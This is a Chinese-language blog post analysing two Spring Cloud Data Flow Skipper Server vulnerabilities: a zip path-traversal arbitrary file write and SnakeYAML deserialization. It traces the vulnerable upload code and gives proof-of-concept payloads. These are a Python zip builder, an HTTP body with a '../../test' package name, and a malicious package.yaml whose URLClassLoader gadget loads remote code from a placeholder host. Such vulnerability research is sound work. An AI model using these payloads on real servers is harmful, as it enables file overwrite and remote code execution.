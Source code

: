 # CVE-2024-22263&amp;CVE-2024-37084漏洞分析

  
  
&lt;!--more--&gt;  
## 0x00 环境搭建  
源码  
[https://github.com/spring-cloud/spring-cloud-dataflow/tree/v2.11.2](https://github.com/spring-cloud/spring-cloud-dataflow/tree/v2.11.2)  
修改`src/docker-compose`目录下的`docker.compose-yml`文件，添加调试端口  
```yaml  
ports:  
  - &#34;7577:7577&#34;  
  - &#34;6006:6006&#34;  
  - ${APPS_PORT_RANGE:-20000-20195:20000-20195}  
  
- JAVA_TOOL_OPTIONS=-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:6006  
```  
修改完后`docker compose up -d`启动  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201331922.png)
## 0x01 漏洞分析  
### CVE-2024-22263  
2.10.0&lt;=version&lt;=2.11.2  
`Skipper Server`在接收上传请求时对`zip`文件中的路径校验不严，具有`Skipper Server API`访问权限的攻击者可以通过上传请求将任意文件写入文件系统中的任意位置，从而获得服务器权限。  
直接定位到漏洞点  
`org.springframework.cloud.skipper.server.controller.PackageController`，访问`/api/package/upload`就可以调用到该方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201333443.png)
跟进到`this.packageService.upload()`，调用`validateUploadRequest()`对请求参数进行验证，主要验证验证如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201335405.png)
构造`payload`  
```python  
import zipfile    
import os    
    
# 创建 test.txtwith open(&#34;test.txt&#34;, &#34;w&#34;) as f:    
    f.write(&#34;Hello, this is a test file!&#34;)    
    
# 创建 test.zip 并添加 test.txtwith zipfile.ZipFile(&#34;test.zip&#34;, &#34;w&#34;, zipfile.ZIP_DEFLATED) as zipf:    
    zipf.write(&#34;test.txt&#34;)    
    
# 读取 ZIP 文件并转换为字节数组    
with open(&#34;test.zip&#34;, &#34;rb&#34;) as f:    
    byte_array = list(f.read())    
    
# 输出部分字节数组数据（避免输出过长）    
print(byte_array)  # 仅显示前100个字节  
```  
`http`  
````http  
{&#34;repoName&#34;:&#34;local&#34;,&#34;name&#34;:&#34;../../test&#34;,&#34;version&#34;:&#34;1.1.1&#34;,&#34;extension&#34;:&#34;zip&#34;,&#34;packageFileAsBytes&#34;:[80, 75, 3, 4, 20, 0, 0, 0, 8, 0, 239, 108, 84, 90, 219, 134, 15, 161, 27, 0, 0, 0, 27, 0, 0, 0, 8, 0, 0, 0, 116, 101, 115, 116, 46, 116, 120, 116, 243, 72, 205, 201, 201, 215, 81, 40, 201, 200, 44, 86, 0, 162, 68, 133, 146, 212, 226, 18, 133, 180, 204, 156, 84, 69, 0, 80, 75, 1, 2, 20, 3, 20, 0, 0, 0, 8, 0, 239, 108, 84, 90, 219, 134, 15, 161, 27, 0, 0, 0, 27, 0, 0, 0, 8, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 164, 129, 0, 0, 0, 0, 116, 101, 115, 116, 46, 116, 120, 116, 80, 75, 5, 6, 0, 0, 0, 0, 1, 0, 1, 0, 54, 0, 0, 0, 65, 0, 0, 0, 0, 0]}  
````  
验证完参数后会回到`this.packageService.upload()`，调`getRepositoryToUpload()`，参数是`repoName`，在该方法下会验证`repoName`存储库是否存在，不存在抛出异常  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201342832.png)
通过`/api/repositories`接口就可以查看系统所有的`repository`，这里默认的`repository`是`local`，在`unpack()`处进行了解压操作，  
```sh  
1、创建一个临时路径packageDirPath，将packageDirPath和name拼接起来，没有对name进行过滤，得到packageDir后，调用mkdidr()创建文件夹  
2、创建一个packageFile，该文件路径表示压缩包的路径    
3、获取packageFileAsBytes参数的内容写入到packageFile压缩包里，接着将压缩包解压到`packageDir`目录下  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201352495.png)
构造`poc`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201351004.png)
成功写入  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201350559.png)
### CVE-2024-37084  
仍然是上面的接口，在下面代码存在`this.packageReader.read()`，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201448557.png)
如果存在`package.yaml`文件，则会进入`loadPackageMetadata()`函数  
进行`yaml.load`反序列化  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502201449520.png)
所以恶意的`package.yaml`文件如下  
```yaml  
apiVersion: 1.0.0  
origin: my origin  
repositoryId: 12345  
repositoryName: local  
kind: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [&#34;dnslog&#34;]]]]  
name: test1  
version: 1.1.1  
```  
所以我们只需要构造`test-1.1.1`文件夹下放入`package.yaml`文件即可  
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/cve-2024-22263cve-2024-37084%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/  

